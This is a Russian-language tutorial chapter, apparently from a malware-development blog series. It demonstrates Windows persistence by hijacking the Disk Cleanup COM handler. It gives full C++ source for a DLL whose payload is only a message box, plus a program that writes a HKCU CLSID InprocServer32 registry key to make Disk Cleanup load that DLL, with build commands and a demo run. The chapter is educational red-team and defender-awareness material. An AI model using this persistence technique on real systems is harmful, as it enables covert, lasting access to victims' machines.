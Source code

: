 \newpage
\subsection{85. разработка вредоносного ПО: закрепление (persistence) - часть 19. Утилита очистки диска. Простой пример на C++.}

﷽

![pers](./images/80/2022-11-18_07-59.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через утилиту очистки диска.     

### утилита очистки диска

Если у вас когда-либо возникали проблемы с нехваткой места на жестком диске, вы наверняка знакомы с утилитой очистки диска:    

![pers](./images/80/2022-11-18_08-06.png){width="80%"}    

Хорошие новости для red team: список *"Файлы для удаления"*, отображаемый в пользовательском интерфейсе, не является случайным. Просто выполните команду:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](./images/80/2022-11-18_04-42.png){width="80%"}    

![pers](./images/80/2022-11-18_04-44.png){width="80%"}    

Как видно, здесь даже есть значения ключей реестра по умолчанию.    

Кроме того, если у нас есть `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, можно найти еще одно значение ключа реестра: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](./images/80/2022-11-18_04-51.png){width="80%"}    

![pers](./images/80/2022-11-18_04-54.png){width="80%"}    

> В демонстрационных целях здесь я показываю пример реестра из HKEY_CLASSES_ROOT, так как HKEY_CURRENT_USER пуст

Это наводит на мысль, что мы можем использовать [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) для закрепления. Давайте попробуем.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, для простоты, это просто `meow-meow` messagebox.

И затем создаем скрипт для закрепления (`pers.cpp`):

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}
  \\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

В качестве CLSID я выбрал `8369AB20-56C9-11D0-94E8-00AA0059CE02`. Как можно видеть, код похож на [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html). Различие только в значениях переменных.   

### демонстрация

Давайте скомпилируем нашу "вредоносную" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](./images/80/2022-11-18_05-14.png){width="80%"}    

И скрипт закрепления:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/80/2022-11-18_05-17.png){width="80%"}    

Копируем на машину жертвы. В моем случае `Windows 10 x64`. Запускаем:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](./images/80/2022-11-18_07-56.png){width="80%"}    

![pers](./images/80/2022-11-18_07-57.png){width="80%"}    

Как можно видеть, все сработало идеально! =^..^=     

Но для закрепления требуется, чтобы пользователь запустил утилиту очистки диска. Здесь можно использовать [один из классических трюков](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) для закрепления. Добавление утилиты очистки диска в автозапуск может быть не лучшей идеей, так как у нее есть GUI. Я попробовал использовать аргументы командной строки этой программы:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

Но неудачно :(. Однако сама утилита работала корректно:       

![pers](./images/80/2022-11-18_08-45.png){width="80%"}    

Думаю, я вернусь к этому вопросу в одном из будущих постов.       

Кроме того, согласно документации Microsoft, можно добавлять новые записи в `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`.      

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     
